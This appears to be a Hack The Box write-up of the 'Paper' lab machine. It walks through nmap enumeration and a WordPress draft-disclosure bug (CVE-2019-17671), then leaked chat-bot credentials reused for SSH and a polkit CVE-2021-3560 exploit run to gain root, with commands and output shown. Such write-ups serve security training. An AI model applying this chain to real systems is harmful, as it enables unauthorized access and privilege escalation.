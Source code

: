 ```yaml
---
clayout: ctf
title: Paper
date: 2025-03-14
image: /ctf/hack-the-box/machines/paper/info-card.png
type: Hack The Box

ctf:
    - name: Paper
      link: https://app.hackthebox.com/machines/432
      thumbnail: /ctf/hack-the-box/machines/paper/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/432
          thumbnail: /ctf/hack-the-box/machines/paper/pwned.png
---
```


## Enumeration

### Nmap Scan

We begin by running a Nmap scan to identify open ports and services on the target machine:

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 1005ea5056a600cb1c9c93df5f83e064 (RSA)
|_  256 588c821cc6632a83875c2f2b4f4dc379 (ECDSA)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods:
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods:
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
```

The scan reveals three open ports:

- Port 22: SSH (OpenSSH 8.0)
- Port 80: HTTP (Apache httpd 2.4.37)
- Port 443: HTTPS (Apache httpd 2.4.37)

### Web Enumeration

Navigating to the target’s IP in a browser displays a default **Apache test page**.

![Cap - Apache test page](/ctf/hack-the-box/machines/paper/apache-test-page.png)

Port **443** serves the same page. Checking the HTTP response headers using `curl`:

```bash
$ curl -s -D - -o /dev/null http://10.10.11.143
HTTP/1.1 403 Forbidden
Date: Tue, 18 Mar 2025 06:38:44 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
...
```

The `X-Backend-Server` header reveals the internal hostname: `office.paper`.
We add this to `/etc/hosts`:

```bash
echo "10.10.11.143 office.paper" | sudo tee -a /etc/hosts
```

### Discovering WordPress

Visiting `http://office.paper/` reveals a Blunder Tiffin Inc. blog.

![Cap - Blunder Tiffin Inc. blog](/ctf/hack-the-box/machines/paper/blunder-tiffin-inc-blog.png)

Inspecting the comments, we find a user **Nick** mentioning a **secret draft page**.

![Cap - Nick's comment](/ctf/hack-the-box/machines/paper/nick-comment.png)

Using **Wappalyzer**, we identify the CMS as **WordPress 5.2.3**.

![Cap - Wappalyzer WordPress](/ctf/hack-the-box/machines/paper/wappalyzer.png)

This version is vulnerable to [CVE-2019-17671](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2/),
allowing unauthenticated users to view private/draft posts.

Appending `?static=1` to the URL reveals a **hidden draft post**.

![Cap - Draft post](/ctf/hack-the-box/machines/paper/draft-post.png)

It contains a **secret registration link** for an employee chat system:

```plaintext
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

We add `chat.office.paper` to `/etc/hosts`:

```bash
echo "10.10.11.143 chat.office.paper" | sudo tee -a /etc/hosts
```

Navigating to the URL presents a **Rocket.Chat registration form**.

![Cap - Chat registration form](/ctf/hack-the-box/machines/paper/chat-registration-form.png)

### Gaining Initial Access

After registering and logging in, we find messages in the **general** channel.

![Cap - Chat messages](/ctf/hack-the-box/machines/paper/chat-messages.png)

A **bot named Recyclops** is mentioned, capable of listing and reading files.

![Cap - Recyclops bot](/ctf/hack-the-box/machines/paper/recyclops-bot.png)

We find **Recyclops' environment file** in `/home/dwight/hubot/.env`:

```bash
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
```

Using these credentials, we attempt SSH login as **dwight**:

```bash
$ ssh dwight@10.10.11.143
[dwight@paper ~]$ id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
```

We retrieve the **user flag**:

```bash
[dwight@paper ~]$ cat user.txt
[USER_FLAG]
```

## Privilege Escalation

### Enumeration

Running **LinPEAS**, we identify the **polkit package**:

```bash
[dwight@paper ~]$ rpm -q polkit
polkit-0.115-6.el8.x86_64
```

This version is vulnerable
to [CVE-2021-3560](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/tree/main), allowing privilege
escalation.

### Exploitation

We upload and execute an exploit script:

```bash
[dwight@paper ~]$ ./poc.sh

[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[+] Inserted Username secnigma  with UID 1005!
[!] It looks like the password insertion was succesful!
```

Switching to the new user and escalating privileges:

```bash
[dwight@paper ~]$ su - secnigma
Password:
[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma:
[root@paper secnigma]# id
uid=0(root) gid=0(root) groups=0(root)
```

We successfully escalate to root and retrieve the **root flag**:

```bash
[root@paper secnigma]# cat /root/root.txt
[ROOT_FLAG]
```

![Cap - pwned](/ctf/hack-the-box/machines/paper/pwned.png)
